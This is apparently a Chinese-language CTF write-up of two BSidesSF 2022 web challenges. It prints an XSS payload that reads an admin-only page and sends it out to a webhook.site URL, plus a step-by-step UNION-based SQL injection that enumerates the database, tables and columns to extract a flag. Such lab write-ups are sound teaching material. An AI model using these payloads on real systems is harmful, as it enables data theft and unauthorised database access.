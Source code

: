 ```yaml
---
title: BSidesSF CTF
date: 2022-06-05 18:51:58
tags: 
       - 赛后复盘
       - CTF
categories: 
       - [赛后复盘]
       - [CTF]
---
```


这个比赛题目比较典型，有学习价值，只写了web

<!--more-->

## web-tutorial-1

> Can you use XSS to steal the flag from the admin?
>
> This challenge is sponsored by the Google Security Team. Come see our BSidesSF booth if you're interested in joining us!

![image446bec8bee21cf99.png](https://z4a.net/images/2022/06/05/image446bec8bee21cf99.png)

payload如下:

```
<script type="text/javascript"> (async function(){navigator.sendBeacon("https://webhook.site/08022f63-cc45-4e24-b4de-fea91c310419",await fetch("https://web-tutorial-1-a1ef0161.challenges.bsidessf.net/xss-one-flag").then(r=>r.text()).then(d=>d))})()    </script>
```

得到flag     CTF{XS5-W0rks-h3r3}![image6dfb5bf21991f3cf.png](https://z4a.net/images/2022/06/05/image6dfb5bf21991f3cf.png)

## Sequels: A New Bug

> We've decided to track known Jedi and Sith, so we put together this database. Hopefully there are no bugs?

最典型最基础的sql注入，通过这个题目再让我重新认识一下sql注入漏洞。

![image.png](https://z4a.net/images/2022/06/05/image.png)

这是一个查询功能，能查到的名字和信息下方已经给了，随便输入一天名字发现能出现，但是加个`‘`就查不到了，存在sql’注入漏洞。



![imaged052b7fa6b222cde.png](https://z4a.net/images/2022/06/05/imaged052b7fa6b222cde.png)

![image162c2235c2bb47c1.png](https://z4a.net/images/2022/06/05/image162c2235c2bb47c1.png)

> 对于sql注入漏洞的识别
>
> 首先可以试试单引号、双引号、单括号、双括号等看看是否报错，如果报错就八成存在SQL注入漏洞了。
>
> 其次在URL后面加and 1=1 、 and 1=2看页面是否显示一样，显示不一样的话就存在SQL注入漏洞了。

这道题首先是猜字段

```
Darth Bane' order by 3# 返回正常
```

![imagea0eeb25836e0488f.png](https://z4a.net/images/2022/06/05/imagea0eeb25836e0488f.png)

```
Darth Bane' order by 4# 错误
```

![image85e18abab9e8329e.png](https://z4a.net/images/2022/06/05/image85e18abab9e8329e.png)

```
Darth Bane' union select 1,2,3#
```

![image9470a40a596c59f3.png](https://z4a.net/images/2022/06/05/image9470a40a596c59f3.png)

然后爆数据库名

```
Darth Bane' union select 1,database(),3#
//得到数据库名是sequels1
```

![imaged87eb02ebba26a2f.png](https://z4a.net/images/2022/06/05/imaged87eb02ebba26a2f.png)

爆表名

```
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="sequels1"#
//得到俩表，flags和jedi
```

![image01b5b372d130f8be.png](https://z4a.net/images/2022/06/05/image01b5b372d130f8be.png)

爆列名

```
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name="flags" #
```

![image90e879dc73490fc7.png](https://z4a.net/images/2022/06/05/image90e879dc73490fc7.png)

读取value数据，得到flag

![image8990ed9b74398721.png](https://z4a.net/images/2022/06/05/image8990ed9b74398721.png)

```
CTF{help_me_hacker_youre_my_only_hope}
```


